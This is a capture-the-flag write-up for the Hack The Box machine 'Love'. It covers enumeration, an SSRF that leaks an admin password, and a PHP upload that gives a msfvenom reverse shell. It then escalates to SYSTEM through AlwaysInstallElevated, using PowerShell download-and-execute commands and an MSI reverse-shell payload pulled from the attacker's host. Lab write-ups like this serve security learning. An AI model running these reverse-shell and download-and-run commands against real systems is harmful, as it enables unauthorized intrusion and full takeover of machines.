









<html>
<head>

</head>
</html>

# Love from Hack the box

## NMAP SCAN

Looking at the nmap scan below we see the following possible domain names.  
- staging.love.htb
- LOVE
- www.love.htb

We add these to /etc/hosts


$ cat /etc/hosts
127.0.0.1       localhost
10.10.10.239    LOVE www.love.htb staging.love.htb



We also see the following interesting ports and services from the nmap scan.

| Port |  Service |
| ----- | ----------- |
| 80 |	http |
| 443 | https |
| 5000	| http |

### NMAP SCAN

$ nmap -sC -sV -oA love 10.10.10.239
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 15:16 EDT
Nmap scan report for www.example.com (10.10.10.239)
Host is up (0.81s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   GetRequest, TerminalServer: 
|_    Host '10.10.14.2' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=8/14%Time=611816AD%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.2'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Termina
SF:lServer,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.14\.2'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m08s, deviation: 4h02m30s, median: 27m07s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-14T12:44:14-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-14T19:44:15
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.29 seconds


## WEB FOOTPRINTING PORT 80
We visit http://10.10.10.239/ and run gobuster in the background while we manually enumerate the website.

### Gobuster Results

$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://10.10.10.239/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.239/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/14 15:23:57 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 302]
/.hta                 (Status: 403) [Size: 302]
/.htpasswd            (Status: 403) [Size: 302]
/admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/admin/]
/Admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/Admin/]
/ADMIN                (Status: 301) [Size: 337] [--> http://10.10.10.239/ADMIN/]
/aux                  (Status: 403) [Size: 302]                                 
/cgi-bin/             (Status: 403) [Size: 302]                                 
/com1                 (Status: 403) [Size: 302]                                 
/com3                 (Status: 403) [Size: 302]                                 
/com2                 (Status: 403) [Size: 302]                                 
/con                  (Status: 403) [Size: 302]                                 
/dist                 (Status: 301) [Size: 336] [--> http://10.10.10.239/dist/] 
/images               (Status: 301) [Size: 338] [--> http://10.10.10.239/images/]
/Images               (Status: 301) [Size: 338] [--> http://10.10.10.239/Images/]
/includes             (Status: 301) [Size: 340] [--> http://10.10.10.239/includes/]
/index.php            (Status: 200) [Size: 4388]                                   
/examples             (Status: 503) [Size: 402]                                    
/licenses             (Status: 403) [Size: 421]                                    
/lpt2                 (Status: 403) [Size: 302]                                    
/lpt1                 (Status: 403) [Size: 302]                                    
/nul                  (Status: 403) [Size: 302]                                    
/phpmyadmin           (Status: 403) [Size: 302]                                    
/plugins              (Status: 301) [Size: 339] [--> http://10.10.10.239/plugins/] 
/prn                  (Status: 403) [Size: 302]                                    
/server-info          (Status: 403) [Size: 421]                                    
/server-status        (Status: 403) [Size: 421]                                    
/webalizer            (Status: 403) [Size: 302]                                    
                                                                                   
===============================================================
2021/08/14 15:24:12 Finished
===============================================================


### Manual website Enumeration
Visiting http://10.10.10.239/ we see the a login screen for "Voting System."

The same home screen appears for http://10.10.10.239/index.php supporting that php is running on the web server.
After trying a few guesses for Voter's ID and Password we move on.

Visiting http://LOVE/, http://www.love.htb/ gives the same above login screen.
Visiting https://LOVE/, https://www.love.htb/, and https://10.10.10.239 gives a 403 Forbidden page.
Visiting http://Love:5000, http://www.love.htb:5000, and http://10.10.10.239:5000 gives a 403 Forbidden page.

Visiting http://staging.love.htb/ we find some kind of file scanner.

We click "Demo" and find that we can read various pages from the remote web server.
Running the scanner on http://10.10.10.239 we see the voting system Sign in screen.

We try to run the scanner on the above pages that we received 403 errors on and 
find we can read http://LOVE:5000.
  

This pages gives us the voting system admin password.

## FOOTHOLD/USER

Visiting http://10.10.10.239/ the password does not work here. Looking at our gobuster results above, we visit http://10.10.10.239/admin and find that the password works here.

We are able to log in to the Voting System Dashboard as admin.  We Navigate to voters.

We create a new voter and upload test.php to the photo field.  Test.php will have the remote host ping our machine, verifying blind code execution.

### Test.php

<?php system('ping 10.10.14.5'); ?>
 

Upload test.php as the new user's photo.

Success!  We can see the remote machine ping our box. 


$ sudo tcpdump -i tun0 icmp       
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:01:38.971850 IP LOVE > 10.10.14.5: ICMP echo request, id 1, seq 1, length 40
16:01:38.971866 IP 10.10.14.5 > LOVE: ICMP echo reply, id 1, seq 1, length 40
16:01:39.976917 IP LOVE > 10.10.14.5: ICMP echo request, id 1, seq 2, length 40
16:01:39.976937 IP 10.10.14.5 > LOVE: ICMP echo reply, id 1, seq 2, length 40
16:01:40.992082 IP LOVE > 10.10.14.5: ICMP echo request, id 1, seq 3, length 40
16:01:40.992094 IP 10.10.14.5 > LOVE: ICMP echo reply, id 1, seq 3, length 40
16:01:42.009716 IP LOVE > 10.10.14.5: ICMP echo request, id 1, seq 4, length 40
16:01:42.009751 IP 10.10.14.5 > LOVE: ICMP echo reply, id 1, seq 4, length 40


We use msfvenom to create a php shell.



$ msfvenom -p php/reverse_php LHOST=10.10.14.5 LPORT=9595 -f raw >shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3007 bytes



We set up nc listening on port 9595



$ nc -lvnp 9595
listening on [any] 9595 ...



We upload shell.php to the photo field by editing the voter we just created and we get a reverse shell.



$ nc -lvnp 9595
listening on [any] 9595 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.239] 52794
whoami
love\phoebe



We have the user account.

## System User

We upgrade our shell to a nishang.  Now we are running powershell. 

Running JAWS we see that Always InstallElevated is enabled on the machine.


PS C:\xampp\htdocs\omrs\images> IEX(New-Object Net.webclient).downloadString('http://10.10.14.5/jaws-enum.ps1')

<-----snip----->

-----------------------------------------------------------                                                                                                                                                                                   
 AlwaysInstalledElevated Registry Key      
-----------------------------------------------------------                                                            
AlwaysInstallElevated enabled on this host!AlwaysInstallElevated enabled on this host!              
-----------------------------------------------------------  

<-----snip----->



On our machine we use msfvenom to generate a reverse shell in the msi format.



$ msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=9258 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi



We set up nc listening on port 9258.
On the remote machine we download and execute AlwaysInstallElevated.msi using the below commands on the remote machine.



PS C:\Users\Phoebe\Documents> $downL="http://10.10.14.5/AlwaysInstallElevated.msi"                                                                                                                                                            
PS C:\Users\Phoebe\Documents> $locA="C:\\Users\Phoebe\\Documents\\AlwaysInstallElevated.msi"                                                                                                                                                  
PS C:\Users\Phoebe\Documents> powershell “(New-Object Net.WebClient).DownloadFile($downL, $locA)” 

PS C:\Users\Phoebe\Documents> msiexec /quiet /qn /i AlwaysInstallElevated.msi  


Now we have a reverse shell as system!


$ nc -lvnp 9258                                                                                                                                                                                                                      [78/80]
listening on [any] 9258 ...                                
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.239] 52826                                                            
Microsoft Windows [Version 10.0.19042.867]                 
(c) 2020 Microsoft Corporation. All rights reserved.       
                                                           
C:\WINDOWS\system32>whoami                                 
whoami                                                     
nt authority\system  



